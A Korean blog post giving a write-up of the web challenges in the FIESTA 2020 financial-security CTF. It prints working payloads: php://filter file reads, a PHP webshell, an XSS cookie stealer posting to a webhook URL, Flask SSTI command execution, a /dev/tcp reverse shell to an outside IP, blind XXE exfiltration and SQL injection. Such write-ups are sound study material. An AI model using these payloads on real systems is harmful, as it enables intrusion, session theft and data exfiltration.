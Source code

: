 ```yaml
---
layout: post
title:  "2020 FIESTA(금융보안원) CTF Write up"
excerpt: "Hard life"
date:   2020-09-25
categories: [Web,ctf]
comments: true
---
```


오랜만에 CTF를 참여했다.  금융보안원에서 진행하는 [FIESTA 2020 : 금융보안 위협분석 대회]인데, 대회 랭킹으로는 3위를 취득했다.

N0Named팀에서 참가를 하였고, 팀명도 N0Named로 참가하였다. 

한 문제파일 및 url에 3가지 문제가 겹쳐있는 형식이었고, 모든 문제를 해결했는데, 웹만 wirte up을 작성하려고 한다.

![fiesta](/img/fiesta1.png)

<h3>0x0. YoUrAT
</h3>

Markdown형식으로 note에 글을 작성할 수 있다.  이를 이용해서 코드를 릭할 수 있다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd)
```

이렇게 글을 작성하여 etc/passwd 코드를 릭해오는 것을 확인했다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../flag)
```

이 페이로드로 최상위 디렉터리에서 플래그를 가져온게 1번 정답이었다.

그 다음 이를 이용하여 index.php의 코드를 릭해오고, 해석하면 write.php가 존재하는 것을 확인할 수 있다. 그런데 이 파일은 암호화 되어있어서 이를 복호화하기 위한 방법을 찾던 도중, 

```markdown
![alt](php://filter/convert.base64-encode/resource=/adm1nkyj_guard.so) 
```

이를 통해서 얻은 파일을 ida로 열어보니 암호화 코드가 있었고, 이를 이용하여 디크립트 코드를 작성했다.

```python
import base64
import re
text = """
write.php 코드
"""

check = re.findall("\$_[0-9a-z]*",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "$_"+xor2(i[2:].decode("hex"),"\x21"))

check = re.findall("\'_[0-9a-z]*\'",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "'"+xor2(i[2:-1].decode("hex"),"\x21")+"'")


check = re.findall("\"_[0-9a-z]*\"",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "\""+xor2(i[2:-1].decode("hex"),"\x21")+"\"")

check = re.findall("_[0-9a-z]*\(",text)
check.sort(reverse=True)
for i in check:
   try:
      text = text.replace(i, xor2(i[1:-1].decode("hex"),"\x21")+"(")
   except:
      pass

print text
```

이를 통하여 복호화를 진행하니 플래그가 나왔다.

```php
if ('thisisbackdoor' === 'thisisbackdoor') {
        if (file_get_contents('http://13.125.25.152/?id=' . $_SESSION['id'] . '&content=' . base64_encode($_POST['content']))) {
            $_go = 'FIESTA2020{';
            $_go .= 'wow_you_are_php_master_XD';
            $_go .= '}';
        }
    }
```

여기 플래그가 2번 플래그였다. 이후 저 링크에 들어가서 웹쉘을 이용하여 플래그를 취득했다.

```
http://13.125.25.152?id=kangsecu.php&content=<?php system($_GET['cmd']);?> 
```

를 이용하여 웹쉘을 업로드 후 

```
http://13.125.25.152/memos/kangsecu.php?cmd=/bin/sh;cd ../../../../../cat flag
```

이렇게 3번까지 해결했다.

<h3> 0x1. DarknetMarket</h3>

이 문제는 1번은 xss를 이용하여 어드민 쿠키를 취득하여 플래그를 읽는 것이었다.

```javascript
<script>document.location='https://webhook.site/cd701ca7-b14d-49dd-bc9c-5e188ed925a6/?P='+document.cookie</script>
```

이런 코드를 .phtml로 작성하고 업로드하여 진행하면 쿠키탈취가 가능하다. 이게 1번 플래그였다.

그 다음 1번에서 취득한 어드민 권한으로 접속하면 업로드 된 글들에 코멘트를 달 수 있는데, 여기서 uwsgi를 사용한 프론트는 아파치고, 백엔드는 플라스크라는게 생각나서 SSTI를 진행했다.

```python
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}} 
```

를 이용하여 내부 디렉터리에 파일들을 출력하고 flag가 있길래 읽어왔다.

```python
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}} 
```

이게 2번 정답이다. 3번은 여기서 SSTI를 이용하여 리버스쉘을 취득해서 nc에서 진행하였다.

```python
`{{config.__class__.__init__.__globals__['os'].popen('/bin/bash-c"/bin/bash-i>&/dev/tcp/49.247.132.71/12345 0>&1"').read()}}`
```

이를 이용하여 우리 서버에 리버스쉘을 연결하고 nc를 열어서 app.py코드를 확인하고 db정보를 취득했다.

그 결과 user:memo에 어드민의 글이 존재하는걸 확인해서  

```sql
mysql -u dev -p -e "select memo from DKNetM.user where memo like ‘%FIESTA%’"
```

이 페이로드를 이용하여 플래그를 출력한게 3번이었다.



<h3>0x2. Auditor</h3>

이번에는  sql인젝션 문제였다. 1번은 그냥 로그인 후  보드에서 download.php?idx= 를 넘겨주는 부분에서 타임베이스드 sql인젝션이 가능했다.  select flag from flag를 통하여 플래그를 취득했다.

2번은  1번과 마찬가지로 idx파라미터에서 union select 인젝션을 통해서 index.php코드를 릭하고 분석하여  파일이 업로드 되는 경로를 릭할 수 있었다.  그 이후 회원가입을 할 때, include 트리거를 했다.

```python
id=kcq&pw=kcq&name=kcq&email=kcq%40naver.com&phone= kcq &gender=1,1,0x2720756e696f6e2073656c65637420312c272f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f7661722f7777772f68746d6c2f66696c65732f6562646438303636383732396530616139636661343832336663313161366663393337323263323636636664616337336235623832653162383839312e6a7067272c312c3123)%23
```

여기서 업로드 된 파일은 이미 웹쉘의 형태로 다른 계정에서 업로드 해둔 것이다. 그리고 그 경로는 다음 코드를 통해서 확인할 수 있다.  

```php
function get_theme($pos){
        global $db_conn;

        if(is_login()){
            $query = "SELECT theme_idx FROM user WHERE id='{$_SESSION['id']}'";
            $result = mysqli_query($db_conn, $query);
            $row = mysqli_fetch_array($result);
            if($row){
                $_skin = $row['theme_idx'];
            }else{
                $_skin = 1;
            }
        }else{
            $_skin = 1;
        }
        $query = "SELECT * FROM theme WHERE theme_idx='{$_skin}' and position='{$pos}'";
        $result = mysqli_query($db_conn, $query);
        $row = mysqli_fetch_array($result);
        if (isset($row['path'])){
            return $row['path'];
        }
    }
```

이제 theme_idx를 조작하면 된다.  그 후 업로드 경로를 통해서 웹쉘을 실행 후 명령어를 전송하고 index.ph코드를 확인하면 2번 플래그가 존재한다. 또한 업로드한 웹쉘을 이용하여 쉘을 따고 찾다보면 3번 플래그가 나온다.



<h3>0x3. PowerSehllCode</h3>

이 문제는 3번만 웹이 이용되었다. XXE기법을 이용하여 C2서버에서 플래그를 읽는 것이다. 처음에는 그냥 XXE를 시도했는데 내가 못한건지 잘 되지 않아서 바인드XXE를 진행하였다.

내 서버에 ext.dtd파일을 아래와 같이 생성했다.

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://개인서버/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

그 후 문제 서버에 아래 페이로드를 전송하였다.

```xml
command=IRIMFxIi&sec=fiesta2020&data=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://개인서버/ext.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

그러니 index.php의 코드가 내 서버로 긁어졌다. 이를 분석하고 서버 내에 . /_readme_only_admin.php 파일에 플래그가 존재하는 것을 알아냈다. 이제 추가로 XXE를 이용하여 이를 읽어왔다.

```php
<?php
$flags = shell_exec('flags2');
if ($_SERVER['REMOTE_ADDR']!='127.0.0.1') {
echo "you are not admin!!";
} else {
echo $flags;
}
?>
```

그런데 이를 127.0.0.1에서 접속하여 실행을 해야해서 다시 ext.dtd를 수정해서 xxe를 시도했다.

```xml-dtd
<!ENTITY % file SYSTEM "http://127.0.0.1/_readme_only_admin.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://webhook.site/aa/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

이를 통해서 플래그를 취득했다.

<h3>0x4. Evidence</h3>

이 문제는 3번만 웹이 이용되었다. 암호화를 진행하는데 사용된 키를 c2서버 웹에서 받아와야 하는 문제였다.

http://15.165.143.41:9999 에 접속하면 dir들이 리스팅되는데, http://15.165.143.41:9999/webpanel/createkeys.php에 키를 요청했더니 에러가 발생하며 http://15.165.143.41:9999/webpanel/lib가 존재하는것을 알려줬다. 그 후, 

http://15.165.143.41:9999/webpanel/lib/Crypt/AES.php 에 접속하니 xml형태로 RSA키와 AES 암호문이 존재했다.

